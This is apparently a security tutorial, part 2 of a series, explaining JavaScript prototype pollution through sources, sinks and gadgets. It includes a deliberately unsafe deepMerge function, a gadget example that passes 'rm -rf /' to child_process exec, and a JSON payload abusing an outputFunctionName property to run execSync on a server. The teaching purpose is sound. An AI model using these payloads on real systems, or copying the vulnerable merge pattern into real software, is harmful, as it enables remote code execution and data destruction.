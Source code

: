 ```yaml
---
description: Part 2 of Prototype pollution
---
```


# Prototype Pollution - Part 2

Previously we went through how objects and prototype works in JavaScript and a high level overview on how an attacker can pollute the prototype of object in JavaScript.

## Brief Recap

<figure><img src="../.gitbook/assets/image (72).png" alt=""><figcaption><p>A typical Prototype Pollution attack type Credits: PortSwigger</p></figcaption></figure>

In order for prototype pollution vulnerability to work, the user controlled properties **must** be assigned to the object's **prototype** instead of the object itself. Hence polluting the prototype of the object. This can be done through functions like a recursive merge function.&#x20;

As I mentioned in Part 1, to successfully exploit prototype pollution, you need the following key components

* A source - Any **user input** that allows you to **poison** the prototypes with arbitrary properties.
* A sink - A JavaScript function or DOM element that **execute** arbitrary code.
* An exploitable gadget - A property that is passed into a sink without **proper filtering**.

I will be diving more in depth into these three key components

## Prototype pollution source

As mentioned, a prototype pollution source is any user input that enables a user to add arbitrary properties to prototype objects. These are some of the most common type of sources:

* URL query via a GET request&#x20;
* JSON-based input via a POST request
* Web messages

I will be going through URL query and JSON-based input.

### Prototype pollution via URL

One can poison the prototype via URL in such a manner:

```http
https://greenhat.com/?__proto__['evilProperty']=payload
```

We might think that the URL parser may interpret `__proto__` as an arbitrary string. But as we mentioned before, if we merge these keys and values into an existing object as properties.

{% code title="What we think might happen when we do a recursive merge" overflow="wrap" %}
```json
{
    currentProperty1: 'test',
    currentProperty2: 'test2',
    __proto__: {
        evilProperty: 'payload'
    }
}
```
{% endcode %}

{% code title="What actually happen" %}
```javascript
targetObject.__proto__.evilProperty = 'payload';
```
{% endcode %}

So, how did this happen? The JavaScript engine actually treat `__proto__` as a getter for the prototype. As a result, the `evilProperty` is assigned to the prototype rather than the target object itself. Now all objects that use the same prototype of the `targetObject` will inherit the `evilProperty`.&#x20;

### Prototype pollution via JSON input

User-controllable objects are often derived from a JSON string using the `JSON.parse()` method. `JSON.parse()` also treats any key in the JSON object as an arbitrary string, including things like `__proto__`.&#x20;

{% code title="A typical malicious JSON " %}
```json
{
    "__proto__": {
        "evilProperty": "payload"
    }
}
```
{% endcode %}

Using `JSON.parse()` method, if we convert the JSON object into a JavaScript object, the resulting object will have a property with the key `__proto__`. If this object is merged into an existing object without proper key sanitization, it will lead to prototype pollution.

## Prototype pollution sinks

A sink refers to a point in the code where untrusted input is processed or executed. This makes it a potential risk if it is not properly handled. In our case for a web application, it will usually be a JavaScript function or DOM element that allows for arbitrary JavaScript or system commands. This obviously depends on the type of web application and the dependency libraries that are in use.&#x20;

```javascript
function deepMerge(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) target[key] = {};
            deepMerge(target[key], source[key]);
        } else {
            target[key] = source[key];  // 🚨 Prototype Pollution Sink
        }
    }
}

let maliciousPayload = JSON.parse('{ "__proto__": { "isAdmin": true } }');

deepMerge({}, maliciousPayload);

console.log({}.isAdmin); // ✅ True - Exploited!
```

## Prototype pollution gadgets

This is probably the most important part of prototype pollution as a gadget allows the vulnerability to become a viable exploit. Gadgets are usually existing function or a feature in the application that can be manipulated to trigger arbitrary execution or escalate privileges after polluting the prototype.

{% code title="A example of exec method being use as a gadget for prototype pollution" %}
```javascript
const { exec } = require("child_process");

let userInput = JSON.parse('{ "__proto__": { "shell": "rm -rf /" } }');

// Polluting the prototype
Object.assign({}, userInput);

exec(userInput.shell, (error, stdout, stderr) => {
    console.log(stdout);
});

```
{% endcode %}

A property can be used as a gadget if it is:

* Used by the application in an unsafe way such as passing it to a sink without proper filtering.
* The object must inherit a malicious version of the property added to the prototype by the attacker.

## A example of prototype pollution

Now for an specific example, I have a vulnerable function called `compile` and I control the `outputFunctionName` property of it.

{% code title="An example of compile function Credits: Offsec" %}
```javascript
569    compile: function () {
...
574      var opts = this.opts;
...
584      if (!this.source) {
585        this.generateSource();
586        prepended +=
587          '  var __output = "";\n' +
588          '  function __append(s) { if (s !== undefined && s !== null) __output += s }\n';
589        if (opts.outputFunctionName) {
590          prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
591        }
...
609      }
```
{% endcode %}

Based on line 590, to make the payload work, we need to do the following:

```javascript
 var x = 1; WHATEVER_JSCODE_WE_WANT ; y = __append;'
```

We just need to add a `x=1; + our code; + y` to the payload to execute this part properly.

If we were to have a JSON input for a API call on a `/sample` endpoint, we can do the following to ensure that our code executes:

<pre class="language-json" data-title="A sample JSON input payload"><code class="lang-json"><strong>}
</strong><strong>    "sampleProperty": "",
</strong><strong>    "__proto__":
</strong>    {
        "outputFunctionName":   "x = 1; console.log(process.mainModule.require('child_process').execSync('whoami').toString()); y"
    }
}
</code></pre>

This web application will process our payload to execute the system `whoami` command on the server hence allowing us to get RCE via prototype pollution.&#x20;

**Author**

* Frost :snowflake:

**References**

* [https://portswigger.net/web-security/prototype-pollution](https://portswigger.net/web-security/prototype-pollution)
* Offsec Advanced Web Attack and Exploitation
